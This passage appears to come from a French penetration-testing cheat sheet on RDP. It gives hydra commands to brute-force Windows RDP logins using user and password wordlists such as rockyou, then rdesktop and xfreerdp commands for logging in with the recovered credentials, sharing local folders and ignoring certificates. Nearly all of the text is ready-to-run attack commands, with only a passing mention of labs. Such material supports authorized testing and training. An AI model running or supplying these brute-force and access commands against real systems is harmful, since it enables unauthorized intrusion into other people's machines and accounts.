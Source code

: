 ### Brute force RDP avec wordlists personnalisées
```bash
# Test rapide avec credentials Windows courants
hydra -L windows_users.txt -P windows_passwords.txt -t 4 -f -o rdp_creds.txt rdp://target

# Vérifier résultats
cat rdp_creds.txt

# Test exhaustif (ATTENTION: peut prendre du temps)
hydra -L /usr/share/seclists/Usernames/Names/names.txt \
      -P /usr/share/wordlists/rockyou.txt \
      -t 2 -f -V rdp://target | tee hydra_rdp.log
```

---

## 🔑 5. Connexion RDP après brute force réussi

### Outils de connexion RDP
| Outil | Système | Commande |
|-------|---------|----------|
| **rdesktop** | Linux | `rdesktop -u username -p password target` |
| **xfreerdp** | Linux | `xfreerdp /u:username /p:password /v:target` |
| **remmina** | Linux GUI | Interface graphique |
| **mstsc** | Windows | `mstsc /v:target` |

### Connexions RDP détaillées

#### Avec rdesktop
```bash
# Connexion basique
rdesktop -u administrator -p Password123 target

# Plein écran
rdesktop -u administrator -p password -f target

# Résolution personnalisée
rdesktop -u administrator -p password -g 1024x768 target

# Partage de répertoire local
rdesktop -u administrator -p password -r disk:share=/tmp target
```

#### Avec xfreerdp (moderne, recommandé)
```bash
# Connexion basique
xfreerdp /u:administrator /p:Password123 /v:target

# Avec options avancées
xfreerdp /u:administrator /p:password /v:target /size:1024x768 /cert-ignore

# Partage de répertoire
xfreerdp /u:administrator /p:password /v:target /drive:share,/tmp

# Copier-coller activé
xfreerdp /u:administrator /p:password /v:target +clipboard

# Mode sans certificat (pour labs)
xfreerdp /u:administrator /p:password /v:target /cert-ignore +clipboard
```
